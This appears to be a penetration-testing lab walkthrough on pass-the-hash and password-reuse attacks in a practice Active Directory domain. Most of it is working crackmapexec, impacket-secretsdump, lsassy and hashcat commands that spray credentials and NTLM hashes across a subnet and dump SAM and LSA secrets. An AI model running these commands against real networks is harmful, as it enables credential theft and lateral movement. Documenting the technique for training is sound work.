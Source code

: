 # Pass Attacks

The attacker already has valid credentials or password hashes from earlier steps (e.g., via LLMNR poisoning, credential dumping, or cracked passwords). The goal is to reuse these credentials to move laterally within the environment.
This includes:

- **Pass-the-Hash (PtH)**: Reusing NTLM hashes.

- **Pass-the-Ticket (PtT)**: Reusing Kerberos tickets.

- **Plain Password Reuse**: Logging in with cracked passwords.

## Walkthrough

- Use tools like crackmapexec to spray credentials or hashes across the subnet. From our initial llmnr poisoning attack vector we did capture and crack the password of fcastle, we will spray that password on the subnet and see if we have access on other machines:

```
crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p 'Password1!'
```

```{figure} ../../../_static/AD/crackmap1.png
:alt: Crackmap
:width: 100%
:align: center
```

→ Found local admin access on THEPUNISHER and SPIDERMAN.

- Test for local admin reuse with NTLM hashes. From our initial SMB relay attack we did dump the local SAM hashes, we will spray the hash of the local admin account found and see if this organization is reusing it:

```
crackmapexec smb 10.0.2.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f' --local-auth
```

```{figure} ../../../_static/AD/crackmap2.png
:alt: Crackmap
:width: 100%
:align: center
```

→ Same local administrator account reused across machines.

- Dump sensitive info (SAM, LSA secrets, shares):

```
crackmapexec smb 10.0.2.0/24 -u administrator -H <hash> --local-auth --sam
crackmapexec smb 10.0.2.0/24 -u administrator -H <hash> --local-auth --shares
crackmapexec smb 10.0.2.0/24 -u administrator -H <hash> --local-auth --lsa
```

- Dump and reuse hashes with lsassy or impacket-secretsdump:

```
crackmapexec smb 10.0.2.0/24 -u administrator -H <hash> --local-auth -M lsassy
impacket-secretsdump administrator:@10.0.2.16 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
impacket-secretsdump MARVEL.local/fcastle:'Password1!'@10.0.2.16
```

- Try to crack captured NTLM hash to recover plaintext password:

```
hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt
```

- Crackmap DB

```{figure} ../../../_static/AD/crackmap-db.png
:alt: Crackmap DB
:width: 100%
:align: center
```

**Process Thought:**

1. Captured fcastle hash via LLMNR.
2. Cracked → Password1!.
3. Sprayed password across subnet.
4. Found new logins → dumped hashes.
5. Resprayed with local admin hashes.
